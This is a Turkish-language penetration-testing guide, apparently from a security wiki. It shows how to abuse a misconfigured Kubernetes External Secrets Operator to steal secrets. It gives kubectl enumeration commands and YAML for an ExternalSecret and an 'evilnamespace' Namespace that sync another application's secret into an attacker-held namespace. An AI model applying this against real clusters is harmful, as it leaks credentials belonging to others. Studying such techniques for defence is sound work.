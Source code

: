 # External Secret Operator

**Bu sayfanın orijinal yazarı** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Bu sayfa, yanlış yapılandırılmış bir ESO veya ESO'yu kullanarak gizli bilgilerini senkronize eden bir uygulamadan gizli bilgileri nasıl çalabileceğinize dair bazı ipuçları vermektedir.

## Disclaimer

Aşağıda gösterilen teknik yalnızca belirli koşullar sağlandığında çalışabilir. Örneğin, bir gizli bilginin sahip olduğunuz / ele geçirdiğiniz bir ad alanında senkronize edilmesine izin veren gereksinimlere bağlıdır. Bunu kendiniz çözmeniz gerekiyor.

## Prerequisites

1. Bir kubernetes / openshift kümesinde bir ad alanında yönetici ayrıcalıkları ile bir yer edinme
2. Küme düzeyinde en azından ExternalSecret üzerinde okuma erişimi
3. ESO'nun gizli bilginizi senkronize etmesine izin veren gerekli etiketler / açıklamalar veya grup üyeliği olup olmadığını belirleyin. Şanslıysanız, tanımlı herhangi bir gizli bilgiyi özgürce çalabilirsiniz.

### Mevcut ClusterSecretStore hakkında bilgi toplama

Bu kaynağı okumak için yeterli haklara sahip bir kullanıcıya sahip olduğunuzu varsayarak; önce mevcut _**ClusterSecretStores**_ listesini çıkararak başlayın.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Bir _**mystore**_ adlı ClusterSecretStore bulduğunuzu varsayalım. İlgili externalsecret'leri listelemeye devam edin.
```sh
kubectl get externalsecret -A | grep mystore
```
_Bu kaynak ad alanı kapsamlıdır, bu nedenle hangi ad alanında arama yapacağınızı bilmiyorsanız, tüm ad alanlarında arama yapmak için -A seçeneğini ekleyin._

Tanımlı externalsecret'lerin bir listesini almalısınız. _**mysecret**_ adında bir externalsecret nesnesi bulduğunuzu varsayalım ve bu nesne _**mynamespace**_ ad alanında tanımlanmış ve kullanılıyor. Hangi türde bir gizli bilgi tuttuğu hakkında biraz daha bilgi toplayın.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Parçaları Birleştirme

Buradan bir veya birden fazla gizli adın (Secret kaynağında tanımlandığı gibi) adını alabilirsiniz. Çıktınız şu şekilde olacaktır:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Şu ana kadar şunları aldık:

- Bir ClusterSecretStore adı
- Bir ExternalSecret adı
- Sırrın adı

Artık ihtiyacımız olan her şeye sahip olduğumuza göre, bir ExternalSecret oluşturabilirsiniz (ve nihayetinde yeni sırrınızın senkronize edilmesi için gereken ön koşullara uymak üzere yeni bir Namespace oluşturabilir/patchleyebilirsiniz):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Birkaç dakika sonra, senkronizasyon koşulları sağlandıysa, ad alanınız içinde sızdırılan sırrı görebilmelisiniz.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referanslar

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
